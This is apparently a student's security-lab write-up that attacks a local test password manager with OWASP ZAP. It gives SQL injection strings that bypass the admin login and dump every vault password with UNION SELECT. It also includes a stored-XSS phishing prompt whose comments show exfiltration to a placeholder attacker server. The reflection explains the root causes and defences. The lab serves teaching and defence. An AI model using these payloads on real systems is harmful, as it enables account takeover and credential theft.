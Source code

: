 # W7 | Injection & XSS Testing

## Introduction  
Web applications live and die by how they handle user input—and in this lab, you’ll discover what happens when that input isn’t properly validated.

We’ll test two of most common web vulnerabilities:
- **SQL Injection** which targets the database layer by manipulating queries
- **Cross-Site Scripting (XSS)** which injects malicious scripts into web pages

Using **OWASP ZAP** we’ll scan the app to find vulnerabilities then manually craft input to exploit them—altering data, injecting scripts, demonstrating risks of insecure input handling.

- Use **ZAP** to identify injection vulnerabilities
- Perform real SQLi and XSS attacks on a test system
- Learn how to prevent them through validation and sanitization

By the end, we’ll understand why **input handling** is one of the most critical aspects of web security and how to defend against these attacks in the wild.

## Steps
1. Download ZAP, enable configurations in computer settings to open. 
2. Select “Automated Scan”, enter password manager url https://localhost to begin attack.
3. In the top menu set view to “Reponses” and “Alerts” and let system run for 10 minutes.
4. Once a high alert (red flag) “SQL Injection” vulnerability is found, study the report to see which type of SQL injection can be used for the username in the login page.

**Log in as Admin without using their password**

5. Use the query ' and 0 in (select sleep(15) ) – and random password to bypass the login page.
6. Explore pages, and logout.
7. Login as the Admin without a password using a similar approach. Admin’ --#
8. Logout, login as “Username” with proper credentials.

**Find a way to retrieve all VAULT passwords from database**

9. Navigate to Vaults page.
10. In the search field input the following injection: ‘UNION SELECT username, password FROM vault_passwords-- -
11. Press enter to see all vault passwords load.

**Create false pop-up asking victim for confidential info whenever they access a vault**

12. Reload page to clear the search field.
13. Navigate to a vault, click on “Edit password”.
14. In the “Notes” field paste the JS payload that will create a fake popup asking for sensitive information.
<script>
    var phishing_prompt = prompt("Security Alert: For your protection, please re-enter your VAULT password.");
    if (phishing_prompt) {
        // In a real scenario, you would send 'phishing_prompt' to an attacker-controlled server.
        // For demonstration, we'll just show an alert with the entered data.
        alert("Captured data (for demo): " + phishing_prompt + "\n(In a real attack, this would be sent to the attacker.)");

        // To send it to an attacker server (similar to Task 2):
        // var attacker_server_url = 'https://YOUR_ATTACKER_SERVER_URL/log_phish'; 
        // new Image().src = attacker_server_url + '?phished_data=' + encodeURIComponent(phishing_prompt);
    }
</script>
15. Click “Update Password” to save and have a partner navigate to the vault to edit details. 
16. Tne JS embedded in the “Notes” field will popup automatically, asking for their vault password. 
17. If they enter information an alert box will show the captured data.
<img width="80%" alt="image" src="https://github.com/user-attachments/assets/2b061cdf-d198-415e-a295-abf95a67a42b" />

*Retrieving all Vault passwords with SQLi*

<img width="100%" alt="image" src="https://github.com/user-attachments/assets/245ba557-bca0-4a70-a03c-d3c54cc1cb49" />

*Malicious payload and popup asking user for crential information*

## Reflection
These attacks occurred due to improper input validation and output encoding. The **application is vulnerable** to SQL injection because user input like usernames and passwords (login.php), data added to vaults (vault_details.php) is **directly linked to SQL queries without being properly sanitized or parameterized**. The application treats user input as part of executable SQL code, allowing attackers to **inject malicious commands to alter the database**. Although it didn’t explicitly show in the ZAP alert log, in theory this application is also vulnerable to XSS shown by the pop up attack, where user given data is stored in the database without proper sanitization. When this stored data is later retrieved and displayed in the browser it fails to run adequate output encoding. The browser interprets the malicious embedded JS as executable code and runs the script.

The concepts that relate most to this lab are: **input validation, output encoding, POLP, defense in depth**. Input validation emphasizes that all user input should be validated and sanitized at the point of entry to ensure it obeys the expected formats, yet both SQL injection and XSS fail to implement robust input validation. Applying **Zero Trust, “never trust, always identify”**, data from untrusted sources(user inputs) should be properly encoded to confirm injected scripts are treated as data not active code. POLP decreases the attack surface by granting minimum access needed to perform tasks. This relates to when the Admin login was bypassed with queries, granting excessive privileges. Another way to **harden the password application is to implement multiple security controls**. If input validation fails, output coding could have served as a secondary defence against XSS.

**FancyBear**, a state sponsored Russian spy hacker group, was found targeting Ukraine related organizations since 2023 by **exploiting cross site scripting in vulnerable webmail servers(Roundcube). The attack injects malicious JS payloads into email messages**, so when victims like government entities open them the hidden JS executes. This allows attackers to steal confidential information(contacts, email content) leading to data theft and spying through client side code injection.
A similar XSS attack can be done on the password application by exploiting the stored XSS vulnerability in the vault details functionality. The vault_details.php file is susceptible because it directly stores user supplied input (Notes field) into the database without proper sanitization, and renders the content back into the user’s browser without output encoding. Like demonstrated above an attacker could inject a malicious JS payload into the password editor Notes field. When another user views that vault entry the injected script would execute in their browser, mirroring FancyBear’s method. This script could be used to capture the victim's session cookies (session hijacking) or extract sensitive information displayed to transmit it to an attacker server with the user unaware. This shows how unvalidated input and lack of output encoding can transform a harmless text box into a powerful attack point for extracting data and compromising accounts.

<img width="50%" alt="image" src="https://github.com/user-attachments/assets/3f0ebd2c-271e-4eb8-b2e7-468f639a6d06" />
